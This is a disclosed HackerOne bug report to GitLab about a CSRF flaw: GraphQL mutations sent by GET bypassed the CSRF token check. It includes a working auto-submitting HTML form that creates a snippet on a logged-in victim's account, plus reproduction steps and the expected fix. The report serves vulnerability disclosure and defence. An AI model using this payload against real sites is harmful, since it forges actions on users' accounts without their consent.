 # CSRF on /api/graphql allows executing mutations through GET requests

## Report Details
- **Report ID**: 1122408
- **URL**: https://hackerone.com/reports/1122408
- **State**: Closed
- **Severity**: high
- **Submitted**: 2021-03-10T16:49:12.826Z
- **Disclosed**: 2021-08-02T19:10:34.660Z

## Reporter
- **Username**: az3z3l
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
Mutations are `edit` or `create`  queries used in Graphql. Gitlab prevents CSRF in this functionality by sending a POST request with a X-CSRF-Token header. The bug I found here was that, when we send a GET request, the backend does not expect the X-CSRF-Token header. Using this, an attacker could leverage this to bypass the existing CSRF protection


### Code for Testing

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <meta name="referrer" content="none">
    <meta name="referrer" content="no-referrer">
</head>
<body>
      <form action="https://gitlab.com/api/graphql/" id="csrf-form" method="GET">
        <input name="query" value="mutation CreateSnippet($input: CreateSnippetInput!) {  createSnippet(input: $input) {    errors    snippet {      webUrl      __typename    }    needsCaptchaResponse    captchaSiteKey    __typename  }}">
        <input name="variables" value='{"input":{"title":"Tesssst Snippet","description":"Hello World","visibilityLevel":"public","blobActions":[{"action":"create","previousPath":"readme.md","content":"reading this.md","filePath":"readme.md"}],"uploadedFiles":[],"projectPath":""}}'>
    </form>


    <script>document.getElementById("csrf-form").submit()</script>
</body>
</html>
```
This exploit would create a snippet named `Tesssst Snippet` on the user's account. 


### Steps to Reproduce

1. Host this file
2. Login to gitlab
3. Open the link to that html
4. Check the snippets for the logged in user. 


### Impact

The attacker could control bypass the existing CSRF check on the graphql endpoint.


### POC

Attached the request and response screenshot



### What is the expected *correct* behavior?

The backend must check the existence of csrf tokens for GET requests as well.

## Impact

The attacker could control bypass the existing CSRF check on the graphql endpoint.

## Attachments
- gitlabCreateSnippet.png

